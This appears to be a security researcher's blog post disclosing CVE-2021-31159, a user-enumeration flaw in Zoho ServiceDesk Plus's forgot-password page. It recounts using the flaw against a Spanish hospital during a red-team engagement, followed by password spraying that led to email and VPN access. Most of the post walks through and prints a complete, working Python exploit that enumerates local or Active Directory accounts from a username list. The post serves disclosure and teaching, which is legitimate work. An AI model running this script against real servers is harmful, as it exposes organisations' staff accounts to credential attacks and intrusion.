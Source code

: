 ```yaml
---
layout: post
description: Finding and abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
title: Finding CVE-2021-31159 for ServiceDesk Plus enumeration 
excerpt_separator: <!--more-->
---
```


This vulnerability takes advantage of ServiceDesk Plus having different output in the password recovery functionality: if the user exists it returns a message claiming an email has been sent but if it does not exist the message is constant.

<!--more-->

Knowing this, it is possible to enumerate accounts in the application or, even better, accounts of an Active Directory if AD authentication is enabled. Very useful when the application is open to the internet and the format of the AD user accounts (for example, name initial + surname) is known.


---------------------------------------------------


## Finding and exploiting it

I found this vulnerability during a Red Team assesment in which there was an outdated ServiceDesk Plus server open to the Internet. In the login page, these servers allow to use local authentication or an AD domain (in this case I changed it to HOSPITAL.DOMAIN):

![Login](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/servicedesk/image0.png)

<br>

In the "forgot password" page, if the user does not exist you get a message like this:

![Login](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/servicedesk/image1.png)


<br>

This message is constant, and so has the same size, but it changes if the username is correct (in that case, it states the user will receive an email to update the password). So we can enumerate users, both local and in a domain. If the server is exposed to the Internet, such as in this case, we can enumerate the internal domain users!

I tested typical AD username formats using the most common Spanish surnames (this was a hospital in Spain), such as (name + surname) or (first letter of name + surname). I was lucky with the latter, using the initial "d" and the very common surname "García":

![Login 2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/servicedesk/image2.png)

<br>

Then I tested all the alphabet using Burp:

![Burp](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/servicedesk/image3.png)

<br>

Nice, we got some correct users! We can use the Python library "requests" and get the same results:

![Example](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/servicedesk/image4.png)


After this, I created a list with the common surnames in Spain ([https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd](https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd)) and enumerated many users. Luckily for me, they used the same format for the emails so I could get the credentials of one employee using other tool I created some time ago ([adfsbrute](https://github.com/ricardojoserf/adfsbrute)) and testing a very weak password (with the format *Companyname123*). From there, I could dump all the emails from Azure, connect to the VPN... a succesful Red Team assesment, abusing such a silly vulnerability!


## Creating the exploit

Now it is time to automate this attack using Python.

#### Creating the parser

First we create a parser with the library "argparse" to have the following parameters:

- domain: The AD Domain to attack
- target: The target url
- usersfile: File containing list of users
- outputfile (optional): File to store the correct users

```
def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args
```


#### Creating the main function and getting the parameters values

Next, we will define the main function, which will be the first one to run, and grab the content of the parameters calling the already defined function "get_args":

```
def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile
```

#### Getting the "incorrect size"

First we will test a user that will never exist to check the bytes in the response from the "forgot password" functionality. We will compare this size with different users: if the user does not exist, the size will be this.

```
resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
incorrect_size = len(resp_incorrect.content)
print("Incorrect size: %s"%(incorrect_size))
```

#### Finding correct users 

To check the list of users from te file, we will open it and create a list with each username from the file:

```
users = open(usersfile).read().splitlines()
```

Then we will iterate each user and create a request to the "forgot passsword" functionality, and checking the response size to find if it exists. If it does, it is added to the "correct_users" list:

```
correct_users = []
for u in users:
	resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
	valid = (len(resp.content) != incorrect_size)
	if valid:
		correct_users.append(u)
	print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))
```

Finally, we will write the correct users to a file and print each of them:

```
print("\nCorrect users\n")
with open(outputfile, 'w') as f:
	for user in correct_users:
		f.write("%s\n" % user)
		print("- %s"%(user))
	print("\nResults stored in %s\n"%(outputfile))
```


#### Final exploit

The final result is [this script]([https://github.com/ricardojoserf/CVE-2021-31159/blob/main/exploit.py):

```python
import argparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args


def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile

	s = requests.session()
	s.get(url)
	resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))

	correct_users = []
	users = open(usersfile).read().splitlines()
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))


if __name__ == "__main__":
    main()
```

## References

- Zoho announcement thanking for the report: [https://www.manageengine.com/products/service-desk-msp/readme.html#10519](https://www.manageengine.com/products/service-desk-msp/readme.html#10519)
- Github repo: [https://github.com/ricardojoserf/CVE-2021-31159](https://github.com/ricardojoserf/CVE-2021-31159)
- Nist: [https://nvd.nist.gov/vuln/detail/CVE-2021-31159](https://nvd.nist.gov/vuln/detail/CVE-2021-31159)
- Mitre: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
- Packetstormsecurity: [https://packetstormsecurity.com/files/163192/Zoho-ManageEngine-ServiceDesk-Plus-9.4-User-Enumeration.html](https://packetstormsecurity.com/files/163192/Zoho-ManageEngine-ServiceDesk-Plus-9.4-User-Enumeration.html)

